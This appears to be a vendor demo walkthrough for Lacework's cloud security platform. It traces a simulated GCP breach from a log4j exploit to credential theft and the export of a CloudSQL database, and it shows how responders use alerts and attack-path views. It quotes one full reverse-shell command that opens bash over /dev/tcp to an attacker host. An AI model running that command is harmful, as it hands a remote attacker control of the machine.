

# GCP-lacework-composite-ciem

## Description

This scenario covers the compromised outlined in the blog post [Breaches happen: How cloud security platforms like Lacework save the day](https://www.lacework.com/blog/breaches-happen-how-cloud-security-platforms-like-lacework-save-the-day) and in this [Product Demo Video](https://vimeo.com/manage/videos/923893706/6d0c7ac128). 

At a high-level:

* A vulnerable application (log4j vulnerability) is accidentally exposed to the internet. 
* Attackers leverage this exposed instance as a foot hold to establish a reverse shell. 
* With access to the environment attackers then enumerate the exploited host and discover locally stored cloud credentials
* Discovered cloud credentials from the exploited machine are used by attackers to enumerate access (using scoutsuite over TOR)
* The enumeration reveals the credentials provide access to an cloudsql instance and that the `cloudsql.instances.export` capability is available
* Attackers use `cloudsql.instances.export` to export a snapshot of the database to an CloudStorage bucket. 
* Once export is complete attackers exfiltrate the DB snapshot from the target environment to their local environment.

## Diagram



## Walkthrough

Alright, we’re going to walk you through a demo and storyline that we documented as part of actual **attack scenarios** we’ve observed in **our customers' environments**. The demo itself we’ve loving titled **wrath of khon traktour** and it outlines a compromise scenario demonstrating why CSPM itself isn’t enough and that you need both threat and risk context from your CNAPP to effectively secure your cloud environment. 

You’ll see some of the innovations released in the last year including:


* **composite alerts**
* **CIEM**
* **alert context panels**
* **attack path analysis** and **security graph** 
* as well as our **code aware functionality**

We’ve got a lot to cover, let’s get started.

In our scenario, we have a fictitious company, Interlace Labs. Interlace Labs recently brought onboard a new contractor to assist with the development efforts for a groundbreaking project. The contractor, tasked with delivering a key demo later in the week, was given access to an compute instance and an cloudsql (Relational Database Service) database. After several hours of work, he had a running application and, satisfied with his day's work, he logged out of the compute instance. 

However, a few hours later, the security team at Interlace Labs receives multiple high and critical event notifications from Lacework, indicating suspicious activity within their cloud account. We can see these here in the Alerts Dashboard.


### Reactive Threat Response

_Potentially Compromised Host_

The incident response team starts with a review of this Composite alert for Potentially Compromised Host. 

> next tab

Composite Alerts provide the high level context for multiple related events. The Lacework platform is able to deliver these low-volume, high-fidelity, high-context alerts using a combination of anomaly detection and risk context, coupled with threat intelligence from our Lacework Labs team. 

It’s a change of mindset from responding to alerts in classic rules based tools where the team would be flooded with hundreds of alerts daily, missing important events like the ones we’ll walk through here. 

> open host context panel

First, let's open up the context panel for this host so we're able to see the risk context associated with this threat. We can see that this machine is** exposed to the internet** and has been identified and has **four critical vulnerabilities**. We’ll review the vulnerabilities in a minute but first let’s review the details of the alert.

> scroll to bottom highlight k8s

Scrolling through the supporting facts, we see that local system enumeration has taken place and we also take note that **access to locally stored cloud credentials was detected**.  

As we continue through the summarized event context, under associated processes we find a call **to setup a reverse shell**, used by **attackers to establish command and control on their target host**: /bin/sh -c /bin/bash -c "TASK=iam2cloudsql /bin/bash -i >& /dev/tcp/log4jc-attacker-904d40a6.attacker-hub.freeddns.org/4444 0>&1 

Next the incident response team takes a deeper dive into the specific vulnerabilities on this host, by opening the host resource details. 

> next tab

In the **vulnerabilities table** below the exposure graph, we can see, **two of the critical vulnerabilities are listed as active**. The ability to determine whether a vulnerability is active on a system, is a unique capability of lacework via our Code Aware Agent.** Knowing a vulnerability's active status** is significant context in** both assessing the risk of threat alerts from this host** and **prioritizing remediation efforts** as part of a larger **vulnerability management program**.

We scroll down to the tcp connections and search for the domain name for the attacker `**log4jc-attacker-904d40a6.attacker-hub.freeddns.org**`

Where we see **connections to ports 4444, 1389 and 8080** matching the **pattern for a log4j exploit**. 

We are also able to** identify the process attackers initially used to gain access to the system** 

`**java spring-boot-application_vuln[log4j]**`, which as we can see here is running as **root**. 

From this one composite alert the incident response team were able to determine that local system enumeration has taken place on this compromised host** including discovery of local cloud credentials**. The incident response team also knows that the initial compromise was from a vulnerable log4j application actively running on the device.

Actions for the incident response team are clear - quarantine the host, take a forensic snapshot and leave the machine in a stopped state until further investigation can be completed.

_Potentially Compromised GCP Keys_

> next tab

Next the incident response team looks at another Lacework Composite alert in the same time window, this **Alert for Potentially Compromised GCP Keys.** 

In the Alert Description **we can see the IAM user khon.traktour@interlacelabs and the Principal ID for the session associated with the compromise indicators**. 

Incident responders can go directly to the **identities dashboard** or **cloud trail logs** from here but before we do that let’s review the supporting facts.

Under Possible Discovery Activity we can see **multiple calls to discovery and enumeration related APIs**.

Under Anomalous Login we can see the **TOR network was used for these connections**, often used by attackers to obfuscate their source location. 

Under entitlement management we can see **the khon.traktour user has been assigned a high severity score based on multiple risky entitlements**. We’ll dig into this a little more in a minute using the Lacework Identities Dashboard.

Scrolling down to the User table, **we can see the khon.traktour user was used to Assume a role called cloudsql_user_access_role_ciemdemo and subsequently executed calls to CreateDBSnapshot**. With this key piece of information we now know that **more than enumeration has taken place**, 

**CreateDBSnapshot is an indicator that the attackers were able to potentially exfiltrate data as well**.

Given the timeframe of the host compromise and the credentials compromise alerts the team suspects the enumerated credentials on the compromised host were for khon.traktour. 

> next tab

To confirm this they **open cloudtrail for the khon.traktour user** and **filter using the public ip address 54.156.61.240** of the compromised host. This **confirms that the compromised credentials and host are indeed linked**.  

_GenAI Investigation and Response_

The team decides it’s time to take action knowing the scope and potential impact of the attacker's activities.  

> next tab
From the composite alert the team opens up the Lacework Alert Assistant context panel. Where they can use the alert assistant to help them understand any aspects of this particular alert. Or ask for additional guidance on remediation.

The team knows they need to take immediate action, although they have some processes in place they’ve never experienced an incident of this magnitude in their environment before. So they leverage the Alert Assistant to help with best practices for remediating compromised credentials in an GCP environment. 

We can see the question here at the top and assistant’s guidance here, including identify resource, invalidate credentials, delete unauthorized resource and continue to monitor.

There’s also some back and forth where the team is working through additional understanding of how the alert assistant might help them, including some guidance on remediating using the GCP-cli.

After receiving the input from the Alert Assistant the team now moves to contain the attacker activities by revoking session credentials, adding explicit deny policy to the cloudsql role and rotating credentials. 

```
We believe the GCP credentials associated with this alert have been compromised. As a Security Analyst what steps should we take to revoke access for this GCP Role and the user who assumed this role?
```

For the team at Interlabs knowing they can securely communicate their concerns, without exposing sensitive information to a third party chatbot, means they can more effectively leverage the power of GenAI in their remediation efforts. Lacework Alert Assistant is like adding another security analyst to the team when that additional help is needed most.

Up next we’ll see **how the Interlace Labs team could have identified the risks presented** by the **host** and **credentials** **before they were compromised**. But let’s pause here for questions.


### Proactive Risk Reduction

> next tab

Now let's take a look at how the team at interlabs labs could have used the lacework platform to identify these toxic combinations earlier before they were exploited by attackers. 


_Attack Path_

We’ll start here in the Lacework Attack Path Dashboard.  In the attack path dashboard we can see that **Lacework bubbles up the highest risk entities in the environmen**t from **host and container** to **data assets and identity**. In fact our **vulnerable internet facing host** is identified here **at the top** and the **compromised cloudsql instance** is identified here on the **bottom right**. 

> next tab

Opening the path for the compute instance we can see both the **path from the internet exposed vulnerable host** to our **cloudsql instance as well access from that same host an CloudStorage Bucket**.

Lacework is continuing to build on these attack path visualizations as part of our new Security Graph and Query Builder Features. **Let’s take a look at our high-risk host here in the Security Graph**. 

As we can see the **relationship** between** internet exposure**, **vulnerability detection**, **compliance violations**, **secrets** **discovery**, and **identity** are all summarized in this security graph view.  Where we can see the** potential blast radius of a compromise** such as lateral movement via ssh keys,  as well as access to CloudStorage, kms and cloudsql.

End-users can build their own queries to discover and visualize other high-risk entities within their environment using the query builder here at the top.

Because the security team at Interlace Labs moved away from rules based alerting which yields low fidelity, low context alerts in high volume alerts - to Lacework, they’ve** increased their operational efficiency**, leaving the** time and space to work on proactive initiatives** such **attack surface reduction** and **right-sizing identity privileges** like we looked at here. 

**Wrap up**

With Lacework, the interlace labs team can prioritize cloud security risk and threats through visibility and context: 

* Helping them to understand **where to focus, with reduced alert volume**. 
* **Improve productivity** through detailed and **context rich insights during investigation**
* And being able to **find known and unknown threats faster** with **anomaly detection and composite alerts**

With that I’ll wrap here.